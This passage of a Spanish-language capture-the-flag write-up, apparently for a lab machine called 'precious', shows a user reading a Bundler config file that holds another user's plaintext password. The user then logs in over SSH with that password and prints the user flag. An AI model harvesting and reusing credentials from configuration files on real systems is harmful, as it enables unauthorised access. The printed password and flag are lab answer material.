 Si nos vamos a nuestro directorio personal encontramos esto 

```bash
bash-5.1$ pwd
/home/ruby/.bundle
bash-5.1$ ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May 18 20:55 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
bash-5.1$ 

```

Tenemos credenciales 

```bash
bash-5.1$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
bash-5.1$ 
```

`henry:Q3c1AqGHtoI0aXAYFH`

## SSH henry 

Si nos conectamos por **SSH** vemos que las credenciales son correctas

```bash
❯ ssh henry@10.10.11.189
The authenticity of host '10.10.11.189 (10.10.11.189)' can't be established.
ECDSA key fingerprint is SHA256:kRywGtzD4AwSK3m1ALIMjgI7W2SqImzsG5qPcTSavFU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.189' (ECDSA) to the list of known hosts.
henry@10.10.11.189's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ export TERM=xterm
henry@precious:~$ 
```

## User flag

```bash
henry@precious:~$ cat user.txt 
5ef47653340c7e3d9976bfddf8723800
henry@precious:~$ 
```
